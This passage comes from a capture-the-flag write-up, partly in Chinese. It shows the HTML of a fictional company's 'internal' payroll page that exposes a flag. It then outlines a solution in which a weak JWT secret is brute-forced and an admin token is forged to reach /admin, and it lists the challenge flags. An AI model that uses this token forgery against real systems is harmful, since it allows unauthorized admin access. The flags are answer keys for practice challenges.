.contact-btn{border:1px solid rgba(255,255,255,.55)!important;padding:8px 18px;border-radius:6px}
.search-wrap{max-width:1100px;margin:0 auto;padding:22px 32px 40px}
.search-hero{background:rgba(255,255,255,.16);border-radius:10px;padding:16px 20px;display:flex;align-items:center;gap:12px}
.search-hero svg{flex:none;opacity:.85}
.search-hero input{flex:1;background:transparent;border:none;outline:none;color:#fff;font-size:16px}
.search-hero input::placeholder{color:#d9d2f7}
.breadcrumb{max-width:820px;margin:28px auto 0;padding:0 24px;font-size:13px;color:#9797a6}
.card{max-width:820px;margin:14px auto 60px;background:#fff;border-radius:12px;padding:44px 48px;box-shadow:0 1px 3px rgba(20,20,40,.06)}
h1{margin:0 0 22px;font-size:28px;font-weight:700;color:#1c1c2b;line-height:1.3}
.byline{display:flex;align-items:center;gap:10px;color:#9797a6;font-size:13px;margin-bottom:28px}
.byline .avatar{width:34px;height:34px;border-radius:50%;background:#e4e0f8;color:#6a4fe0;display:flex;align-items:center;justify-content:center;font-weight:700;font-size:13px}
.card p{color:#54546a;line-height:1.75;font-size:15px}
.article-list{list-style:none;padding:0;margin:0}
.article-list li{margin:0 0 10px}
.article-list a{display:block;padding:14px 18px;background:#faf9fd;border:1px solid #ece9f7;border-radius:8px;color:#2c2c3a;text-decoration:none;font-weight:600}
.article-list a:hover{border-color:#c9bdf5;background:#f5f2fd}
.back-link{display:inline-block;margin-top:8px;font-size:14px;text-decoration:none}
footer{font-size:12px;color:#9797a6;text-align:center;padding:24px}
</style>
</head>
<body>
<header>
<div class="header-top">
<a class="brand" href="/">Brunnerne Inc.</a>
</div>
<div class="search-wrap">
<form class="search-hero" method="post" action="/search">
<svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="#fff" stroke-width="2"><circle cx="11" cy="11" r="7"/><line x1="21" y1="21" x2="16.65" y2="16.65"/></svg>
<input type="text" name="q" placeholder="Search for answers...…">
</form>
</div>
</header>
<div class="breadcrumb">Help Center / Q4 Payroll Notes (Internal)</div>
<main class="card">
<h1>Q4 Payroll Notes (Internal)</h1>
<div class="byline"><span class="avatar">HR</span><span>Written by HR</span></div>
<p>These notes are for the payroll team only and are not linked from the public wiki. Flag: brunner{00ps_th4t_p4g3_w4s_1nt3rn4l}</p>
<a class="back-link" href="/">← Back to wiki</a>
</main>
<footer>Brunnerne Inc. internal knowledge base</footer>
</body>
</html>
```

### Flag

```text
brunner{00ps_th4t_p4g3_w4s_1nt3rn4l}
```

## Secret Event

`jwt` 用的弱 `secret` ，直接爆破出来 `secret="secret"`

伪造 `role` 为 `admin` 的 `jwt` 在 `devtools` 里改 `Cookie` 后访问 `/admin` 即可看到 `flag`



### Flag

```text
brunner{well_known_secret}
```
